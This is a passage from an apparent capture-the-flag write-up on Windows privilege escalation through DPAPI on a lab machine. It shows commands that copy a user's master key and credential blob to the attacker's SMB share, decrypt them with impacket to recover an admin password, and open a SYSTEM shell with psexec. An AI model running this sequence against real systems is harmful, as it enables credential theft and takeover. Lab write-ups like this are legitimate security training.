

Now It’s clear that we need the password for this user to get Administrator access.

after enumerating for while and trying password reuse nothing works

## DPAPI Secrets

The DPAPI (Data Protection API) is an internal component in the Windows system. It allows various applications to store sensitive data (e.g. passwords). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at:

```php
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

Below are common paths of hidden files that usually contain DPAPI-protected data.

**batch**

`C:\Users\$USER\AppData\Local\Microsoft\Credentials\`

`C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\`

so we know that the master key located at the 

```php
C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\
```



i used the `ls -h` to view the hidden files as well

let’s download the master key first



to overcome this i’ll use the smb server from my kali to directly copy it to share

start smbserver

```php
impacket-smbserver test . -user admin -password admin -smb2support
```

on windows machine:

connect to smb server

```php
net use \\10.10.14.64 admin /user:admin
```

copy the file to smb share

```php
copy C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-1275-4ccf-b721-e6a0b4f90407 \\10.10.14.64\test
```

same way copy the encrypted blob

```php
copy C:\Users\steph.cooper\AppData\Roaming\Microsoft\Credentials\C8D69EBE9A43E9DEBF6B5FBD48B521B9 \\10.10.14.64\test
```

now i’ll use the `impacket-dpapi` 

```php
impacket-dpapi masterkey -file 556a2412-1275-4ccf-b721-e6a0b4f90407 -sid S-1-5-21-1487982659-1829050783-2281216199-1107 -password ChefSteph2025!
```



now i’ll use this key to decrypt the encrypted blob

```php
impacket-dpapi credential -file C8D69EBE9A43E9DEBF6B5FBD48B521B9 -key 0xd9a570722fbaf7149f9f9d691b0e137b7413c1414c452f9c77d6d8a8ed9efe3ecae990e047debe4ab8cc879e8ba99b31cdb7abad28408d8d9cbfdcaf319e9c84
```



looks like the password of steph.cooper_adm user

```php
netexec smb 10.10.11.70 -u steph.cooper_adm -p 'FivethChipOnItsWay2025!'
```



Bingo!! let’s use the `impacket-psexec` to get system shell

```php
impacket-psexec puppy.htb/steph.cooper_adm:'FivethChipOnItsWay2025!'@10.10.11.70
```

